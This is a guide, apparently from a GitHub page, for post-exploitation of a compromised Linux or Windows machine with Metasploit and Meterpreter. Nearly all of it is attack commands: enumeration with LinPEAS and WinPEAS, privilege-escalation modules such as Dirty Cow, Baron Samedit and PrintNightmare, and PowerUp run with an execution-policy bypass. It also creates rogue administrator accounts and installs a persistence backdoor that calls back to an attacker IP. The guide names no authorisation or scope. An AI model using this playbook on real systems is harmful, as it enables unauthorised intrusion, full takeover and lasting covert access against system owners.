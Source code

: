 Comprehensive Guide: Vulnerability Assessment on a Compromised Machine Using Metasploit and Meterpreter

This detailed guide outlines the steps to conduct a complete vulnerability assessment on a compromised machine using Metasploit and Meterpreter. It includes additional tools, workflows, and privilege escalation techniques to achieve root or system-level access.

1. Initial Access with Meterpreter

After successfully compromising the target machine and establishing an active Meterpreter session:

Verify the current user:

meterpreter > getuid

If the user is not root (Linux) or Administrator/System (Windows), privilege escalation will be required.

Gather system information:

meterpreter > sysinfo

This command provides details such as the operating system, architecture, and version, essential for identifying vulnerabilities and local exploits.

System Enumeration

Before exploiting, collect as much information as possible to identify vulnerabilities and misconfigurations.

2.1 Using Metasploit Modules

Suggest Local Exploits: Use the local_exploit_suggester module to analyze the system and recommend potential exploits for privilege escalation:

use post/multi/recon/local_exploit_suggester

set SESSION <session_id>

run

The module evaluates kernel versions, patches, and configurations to suggest applicable exploits.

System Information Gathering:

Linux:

use post/linux/gather/enum_system

set SESSION <session_id>

run

Windows:

use post/windows/gather/enum_system

set SESSION <session_id>

run

These modules extract information such as:

User accounts and permissions.

Running services.

Security configurations.

2.2 External Tools (LinPEAS/WinPEAS)

For a more detailed enumeration:

LinPEAS (Linux):

A script that detects insecure configurations, SUID/SGID files, vulnerable services, and kernel versions.

Usage:

Upload the script to the target machine:

meterpreter > upload /path/to/linpeas.sh /tmp/linpeas.sh

Open a shell session:

meterpreter > shell

Make the script executable:

chmod +x /tmp/linpeas.sh

Execute the script:

./tmp/linpeas.sh

WinPEAS (Windows):

A tool that identifies weak registry configurations, vulnerable services, and sensitive files.

Usage:

Upload the tool to the target system:

meterpreter > upload /path/to/winPEAS.exe C:\Temp\winPEAS.exe

Execute it directly:

meterpreter > execute -f C:\Temp\winPEAS.exe

3. Privilege Escalation

After identifying vulnerabilities, use local exploits to escalate privileges to root or SYSTEM.

3.1 Linux

Kernel Exploits:

Example: Dirty Cow (CVE-2016-5195):

use exploit/linux/local/dirty_cow

set SESSION <session_id>

run

For outdated kernels, use exploits like:

use exploit/linux/local/sudo_baron_samedit

set SESSION <session_id>

run

Weak Permissions:

Exploit misconfigured SUID files or other insecure configurations detected by LinPEAS.

3.2 Windows

Exploitation:

Examples of vulnerabilities:

PrintNightmare (Spooler Service):

use exploit/windows/local/printnightmare

set SESSION <session_id>

set RHOSTS <target_ip>

run

JuicyPotato (COM Permissions): Target privilege escalation in COM-based services.

External Tools:

PowerUp: A PowerShell script for privilege escalation:

powershell

powershell -exec bypass -file C:\Temp\PowerUp.ps1

4. Establishing Persistence

After escalating privileges, ensure continuous access:

Create a New User:

Linux:

useradd -m -s /bin/bash new_user

passwd new_user

usermod -aG sudo new_user

Windows:

cmd

net user new_user password /add

net localgroup administrators new_user /add

Install a Backdoor:

meterpreter > run persistence -U -i 5 -p <port> -r <attacker_ip>

Summary

By following this approach:

Gather detailed system information using Metasploit modules, LinPEAS, or WinPEAS.

Identify exploitable vulnerabilities such as outdated kernels, SUID/SGID files, or misconfigurations.

Use local exploits or weak permissions for privilege escalation.

Establish persistence to maintain future access.

This combination of tools and techniques ensures full control over the compromised machine while meeting operational goals effectively.